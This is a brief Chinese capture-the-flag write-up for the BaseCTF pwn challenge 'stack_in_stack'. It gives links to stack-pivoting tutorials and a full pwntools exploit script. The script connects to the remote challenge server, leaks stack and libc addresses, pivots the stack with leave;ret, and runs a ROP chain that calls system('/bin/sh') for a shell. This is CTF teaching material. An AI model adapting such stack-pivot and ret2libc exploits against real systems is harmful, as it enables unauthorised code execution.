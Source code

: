 # Basectf pwn方向“stack_in_stack”

by Maple

栈迁移+libc，我理解的也不是很深刻，就不讲解了，这里附几篇我认为讲的不错的帖子

[栈迁移原理深入理解以及实操](https://xz.aliyun.com/t/12738?time__1311=GqGxu7G%3DGQD%3DoGN4eeqBKwpb8ddY5fII3x)

[栈迁移的原理&&实战运用](https://www.cnblogs.com/ZIKH26/articles/15817337.html)

[栈迁移原理介绍和运用](https://www.cnblogs.com/max1z/p/15299000.html)

[[原创]钉子户的迁徙之路（一）](https://bbs.kanxue.com/thread-281631.htm)


```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
#p = process("./pwn")
p = remote('gz.imxbt.cn',20330)
elf = ELF("./pwn")
libc = ELF("./libc.so.6")

p.recvuntil(b'mick0960.\n')
buf_addr = int(p.recv(14),16)
log.info("buf_addr:"+hex(buf_addr))

seceret = 0x4011dd
main = 0x40124a
leave = 0x00000000004012f2
ret = 0x000000000040101a

#泄露libc基地址
payload = p64(0) + p64(seceret) + p64(0) + p64(main)
payload += p64(0) + p64(0) #填充到rbp，0x30也就是48个字节减去前面的4*8,再填充两个
payload += p64(buf_addr) + p64(leave)#栈迁移，先覆盖返回地址为buf，再接leave_ret
p.send(payload)

p.recvuntil(b'0x')
libc_base = int(p.recv(12),16)-libc.sym["puts"]
log.info("libc_base:"+hex(libc_base))

# 重新接受buf
p.recvuntil(b'mick0960.\n')
buf_addr = int(p.recv(14),16)
log.info("buf_addr:"+hex(buf_addr))

system_addr = libc_base+libc.sym["system"]
binsh = libc_base+next(libc.search(b'/bin/sh'))
pop_rdi = libc_base+0x2a3e5

payload = p64(0)+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system_addr)
payload+=p64(0) # 填充一个
payload+=p64(buf_addr)+p64(leave)
p.send(payload)

p.interactive()
```